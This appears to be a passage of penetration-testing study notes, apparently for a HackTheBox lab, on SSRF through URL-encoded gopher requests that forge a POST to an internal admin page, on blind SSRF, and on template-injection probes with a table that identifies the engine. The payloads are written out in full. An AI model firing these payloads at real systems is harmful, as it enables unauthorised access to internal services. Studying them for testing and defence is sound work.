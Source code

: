 We need to URL encode this request and use it in the gopher request as URL:

`gopher://192.168.1.2:80/_[REQUEST_GOES_HERE]`

Herby the port need to be specified, as gopher would otherwise use pot 70 as default.

This goopher url need then be URL encoded to be used in the request:

`ssrf_endpoint=gopher://192.168.1.2:80/_POST%20%2Fadmin.php%20HTTP%2F1.1%0AHost%3A%20192.168.1.2%0AContent-Length%3A%2021%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0A%0Auser%3Dadmin%26pass%3Dadmin`

gopher%3A%2F%2F192.168.1.2%3A80%2F_POST%2520%252Fadmin.php%2520HTTP%252F1.1%250AHost%253A%2520dateserver.htb%250AContent-Length%253A%252013%250AContent-Type%253A%2520application%252Fx-www-form-urlencoded%250A%250Aadminpw%253Dadmin
dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01

Useful tool: https://github.com/tarunkant/Gopherus 

**Blind SSRF**

Test if path to known existing and know non existing files or URLs produce a different outputs. 

If you see a difference in those requests (e.g. different response messages) but no additional data like the file contents in the output, SSRF is blind.

#### SSTI - server-side template injection

Test string - should break almost all templates: 

`${{<%[%'"}}%\.`

**Test payloads**

```
${7*7}
a{*comment*}b
${"z".join("ab")}
{{7*'7'}}
```

**Results**

| Output    | Engine    |
|-----------|-----------|
| `7777777` | Jinja2    |
| `49`      | Twig      |
| `ab`      | Smarty    |
| `azb`     | Mako      |
| Orig.     | Not vuln. |

**Jinja2**

**Information disclosure:**
